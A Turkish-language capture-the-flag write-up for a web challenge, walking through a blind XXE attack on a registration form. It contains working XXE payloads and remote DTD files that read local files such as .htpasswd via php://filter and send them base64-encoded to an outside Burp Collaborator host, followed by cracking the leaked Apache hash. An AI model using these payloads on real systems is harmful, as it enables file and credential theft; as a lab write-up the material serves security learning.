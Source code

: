# At - Web 300


```
http://54.227.36.103/
```

![](login.png)

Karşımızda bir register page vardı. Burp'ü açıp üye olmaya çalıştık.


![](burp1.png)

`XML` şeklinde idi. `XML`'i gördüğümüz gibi `XXE` vardır dedik. Collaborator'u açıp PoC yapalım dedik

![](collab1.png)

 Bize dönüyordu.

 ![](collab2.png)

[`PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections) Hazretleri işimizi çok kolaylaştırmıştı.



``` xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://xx.xx.xx.xx/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

`dtd.xml`'in içi ise böyle olacaktı
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=dosya.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://burpCollabator/dtd.xml?%data;'>">
```
Hemen `AWS`'den sunucu açıp  işe koyulduk. Fakat hangi dosyayı okuyacaktık? sorun tam olarak buydu. `Dirb`'i açıp fuzzlamaya başladık

![](dirb.png)

`http://54.227.36.103/flag` vardı. Fakat ` 401 Unauthorized` vermiş yani `HTTP Authentication` varmış.

![](header.png)



`Server: Apache/2.4.29 (Win32) OpenSSL/1.1.0g PHP/7.2.1` Headeri karşı tarafta Windows üzerinde Apache kullandığını gösteriyordu. Yani `HTTP Authentication` bilgileri `.htpasswd` içerisinde saklanıyordu.

iki ihtimal vardı.

```
C:/xampp/htdocs/.htpasswd
C:/wamp/htdocs/.htpasswd
```
`xampp` ile denemeye başladık ve şansımıza `xampp`mış.

sunucumuzdaki `dtd` dosyasını şu şekilde güncelledik.

``` xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://j5pu2wukt3yh21h7g7kqkqndf4ly9n.burpcollaborator.net/?%data;'>">

```
![](htpswd.png)

```
stalker:$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/
```
diye dönüş aldık. `$apr1$` kısmı `Apache MD5` anlamına geliyordu. `rockyou.txt` ve `hashcat` ikilisi ile kırılıyordu. ( kusura bakmayın fotoğrafını çekecek vaktim yoktu.)

```
gangstagangsta
```

Şifremiz `gangstagangsta` olduğuna göre girebilirdik. Oraya bakalim dedik. `flag_3289erpd.txt.jpg` adlı bir resim geliyordu.


![](uzlmeKrds.png)

Fakat flag burada değildi. Spider ile baktığımızda

![](files.png)

`files.txt` diye bir dosya vardı.

![](curl.png)

Dosyanın içinde `flag_\d{4}[a-zA-Z]{4}\.txt` adlı bir dosya vardı. Anam bu resimin ismi ile regexp bire bir gibi değilmi dedik ve `dtd` dosyasını güncelledik.



```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://j5pu2wukt3yh21h7g7kqkqndf4ly9n.burpcollaborator.net/?%data;'>">

Ve flag bize gülümsüyordu.

```
![](flag.png)

Ve flag

```
DKHOS_{v4yT_c4kl1t_m0k4}
```
